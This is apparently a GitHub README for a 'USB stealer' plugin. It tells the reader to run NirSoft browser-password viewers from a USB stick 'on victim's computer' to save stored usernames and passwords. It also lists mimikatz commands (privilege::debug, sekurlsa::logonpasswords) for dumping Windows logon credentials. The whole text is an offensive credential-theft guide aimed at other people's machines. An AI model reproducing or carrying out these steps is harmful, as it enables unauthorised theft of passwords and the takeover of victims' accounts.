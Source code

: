 # WebBrowserPassView-plugin
![webbrowserpassview-icon](https://user-images.githubusercontent.com/43011806/46359326-b0865d80-c671-11e8-85b7-043be5353632.png)
![chromepass_37622](https://user-images.githubusercontent.com/43011806/46678213-cdc8a800-cbec-11e8-9e4a-2ca14d99a217.png)

> This plugin made for Green Force soft on your USB stealer.

> This plugin independed and can work without any library and codes!

> This plugin made for Green force USB mini.

> This is fastely way to hack passwords!

This is WebBrowserPassView:

![img_4617](https://user-images.githubusercontent.com/43011806/46586686-9f32bc00-ca8a-11e8-8288-399ca15d9aba.JPG)

This is ChromeBrowserPassView (this is WebBrowserPassView but only for Chrome browser):

![chromepass_37622](https://user-images.githubusercontent.com/43011806/46678213-cdc8a800-cbec-11e8-9e4a-2ca14d99a217.png)
![1456302849122047466](https://user-images.githubusercontent.com/43011806/46678216-cef9d500-cbec-11e8-8272-5e1775961c5b.jpg)

This is an iepv (this is WebBrowserPassView but only for Internet Explorer browser):

![iepv](https://user-images.githubusercontent.com/43011806/46815272-3d709b80-cd83-11e8-8252-74ed968b3bf3.gif)
![iepv_icon](https://user-images.githubusercontent.com/43011806/46815088-da7f0480-cd82-11e8-8aef-fb2c64d3b429.gif)

To start:

> Download files

> And put it on your Green Force USB.

(in this plugin is WebBrowserPassView programm)

How to activate this programm:

> open WebBrowserPassView on victim's computer from USB and tap the button in this programm "Save selected items".

> or open ChromeBrowserPassView on victim's computer from USB and tap the button in this programm "Save selected items".

> or open iepv on victim's computer from USB and tap the button in this programm "Save selected items".

And you will have passwords and usernames from other sites!

Mimikatz_trunk this is script for hacking computer passwords:

> Open mimikatz.exe

Run commands in mimikatz:

> mimikatz # privilege::debug

> mimikatz # log logfile.txt

> mimikatz # sekurlsa::logonpasswords

And you will have user passwords!

